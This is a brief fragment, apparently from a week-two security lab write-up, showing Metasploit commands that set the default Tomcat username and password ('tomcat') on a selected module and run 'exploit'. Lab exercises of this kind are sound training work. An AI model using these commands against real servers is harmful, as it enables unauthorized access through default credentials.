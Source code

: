 ![Tomcat credentials](/week-2/tomcat-creds.png)

`use 6`
`set HttpPassword tomcat`
`set HttpUsername tomcat`
`exploit`
